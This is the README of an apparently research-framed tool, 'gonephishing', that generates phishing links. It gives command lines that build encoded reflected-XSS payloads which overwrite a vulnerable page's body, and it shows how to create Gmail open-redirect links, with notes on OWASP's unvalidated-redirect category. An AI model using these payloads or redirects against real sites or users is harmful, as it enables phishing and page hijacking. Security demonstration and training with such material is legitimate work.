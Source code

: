 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html.  
 
 the containing javascript must contain a ¬  (shift + backtick in UK) to mark location to inject html into.  
 
 Current supported encoders are b64 (base64), hex ('\xAA\xBB' etc), pcnt (every character as url encoded).  If pcnt encoding isnt selected the string gets a standard urlencode
 
 IE only supports around 2000 characters in a get.


Create a file called test.html (the @ sign below signifies that you are using a file rather than direct input)
~~~
python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("¬")</script>'  --encoders b64

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=("¬")</script>'   --encoders hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("¬")</script>'   --encoders b64,hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML="¬"</script>'  --encoders pcnt
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/




